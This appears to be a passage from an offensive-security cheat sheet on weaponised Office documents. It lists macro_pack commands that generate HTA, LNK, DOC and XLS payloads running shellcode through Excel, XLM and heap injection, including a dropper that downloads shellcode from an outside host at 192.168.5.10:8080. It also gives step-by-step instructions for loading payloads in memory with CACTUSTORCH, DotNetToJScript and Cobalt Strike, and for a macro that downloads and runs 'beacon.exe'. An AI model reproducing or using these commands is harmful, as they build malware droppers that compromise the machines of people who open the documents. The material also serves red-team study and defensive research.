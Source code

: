 ```powershell

# PRO: Generate an HTA payload able to run a shellcode via Excel injection
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE  --run-in-excel -o -G samples\nicepic.hta
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE -o --hta-macro --run-in-excel -G samples\my_shortcut.lnk

# PRO: XLM Injection
echo "MPPro" | macro_pack.exe -G _samples\hello.doc -t HELLO --xlm --run-in-excel

# PRO: ShellCode Exec - Heap Injection, AlternativeInjection
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=HeapInjection -G test.doc
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=AlternativeInjection --background -G test.doc

# PRO: More shellcodes
echo x86.bin | macro_pack.exe -t SHELLCODE -o -G test.pptm –keep-alive
echo "x86.bin" "x64.bin" | macro_pack.exe -t AUTOSHELLCODE -o –autopack -G sc_auto.doc
echo "http://192.168.5.10:8080/x32calc.bin" "http://192.168.5.10:8080/x64calc.bin" | macro_pack.exe -t DROPPER_SHELLCODE -o --shellcodemethod=ClassicIndirect -G samples\sc_dl.xls
```


## DOCM - CACTUSTORCH VBA Module

> CactusTorch is leveraging the DotNetToJscript technique to load a .Net compiled binary into memory and execute it from vbscript

* https://github.com/mdsecactivebreach/CACTUSTORCH
* https://github.com/tyranid/DotNetToJScript/
* CACTUSTORCH - DotNetToJScript all the things - https://youtu.be/YiaKb8nHFSY
* CACTUSTORCH - CobaltStrike Aggressor Script Addon - https://www.youtube.com/watch?v=_pwH6a-6yAQ

1. Import **.cna** in Cobalt Strike
2. Generate a new VBA payload from the CACTUSTORCH menu
3. Download DotNetToJscript
4. Compile it 
    * **DotNetToJscript.exe** - responsible for bootstrapping C# binaries (supplied as input) and converting them to JavaScript or VBScript
    * **ExampleAssembly.dll** - the C# assembly that will be given to DotNetToJscript.exe. In default project configuration, the assembly just pops a message box with the text "test"
5. Execute **DotNetToJscript.exe** and supply it with the ExampleAssembly.dll, specify the output file and the output type
    ```ps1
    DotNetToJScript.exeExampleAssembly.dll -l vba -o test.vba -c cactusTorch
    ```
6. Use the generated code to replace the hardcoded binary in CactusTorch


## DOCM - MMG with Custom DL + Exec

1. Custom Download in first Macro to "C:\\Users\\Public\\beacon.exe"
2. Create a custom binary execute using MMG
3. Merge both Macro
